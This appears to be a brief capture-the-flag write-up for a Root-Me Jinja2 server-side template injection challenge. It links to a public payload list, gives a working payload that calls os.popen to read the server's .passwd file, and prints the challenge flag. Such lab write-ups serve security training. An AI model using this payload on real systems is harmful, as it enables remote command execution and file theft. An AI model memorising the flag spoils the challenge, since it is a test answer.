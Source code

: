 # [Python - Server-side Template Injection Introduction](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

## Solutions

- Jinja2 is one of the most used template engines for Python
- Find payload for Jinja2 template injection: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread>

- Payload:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat .passwd').read() }}
```

- => Flag: `Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!`

## References

- <https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md>
